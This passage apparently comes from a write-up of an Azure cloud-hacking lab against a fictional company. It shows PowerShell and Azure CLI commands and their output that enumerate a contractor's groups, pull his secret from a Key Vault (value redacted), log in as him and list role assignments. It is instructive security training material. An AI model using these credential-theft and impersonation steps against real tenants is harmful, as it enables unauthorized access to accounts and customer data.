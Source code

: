 Seems like Josh has one. We can also see that he's a member of `CUSTOMER-DATABASE-ACCESS` group
```
└─PS> get-MgUserMemberOf -userid "ext.josh.harvey@megabigtech.com" | select * -ExpandProperty additionalProperties | Select-Object {$_.AdditionalProperties["displayName"]}                                                                 

$_.AdditionalProperties["displayName"]
--------------------------------------
CUSTOMER-DATABASE-ACCESS
Directory Readers
Default Directory
```

Let's retrieve Josh's secret
```
└─PS> az keyvault secret show --name "josh-harvey" --vault-name "ext-contractors" -o json                                                                                                                                                   
{
  "attributes": {
    "created": "2023-10-23T17:12:32+00:00",
    "enabled": true,
    "expires": null,
    "notBefore": null,
    "recoverableDays": 90,
    "recoveryLevel": "Recoverable+Purgeable",
    "updated": "2023-10-23T17:12:32+00:00"
  },
  "contentType": null,
  "id": "https://ext-contractors.vault.azure.net/secrets/josh-harvey/c5ec280997564e6da42d44797980c052",
  "kid": null,
  "managed": null,
  "name": "josh-harvey",
  "tags": {},
  "value": "<REDACTED>"
}

```

Login as Josh and check his roles (need to login via azure cli and also `Connect-AzAccount`)
```
└─PS> Get-AzRoleAssignment -Scope "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94" | Select-Object DisplayName, RoleDefinitionName                                                                                                     

DisplayName              RoleDefinitionName
-----------              ------------------
Ian Austin               Key Vault Administrator
Marcus Hutch             Key Vault Reader
Marcus Hutch             Key Vault Secrets User
Josh Harvey (Consultant) Reader
CUSTOMER-DATABASE-ACCESS Customer Database Access
IT-HELPDESK              Reader
Clara Miller             Reader
dbuser                   Reader
Ian Austin               Storage Blob Data Owner
Ian Austin               Storage Blob Data Owner
```
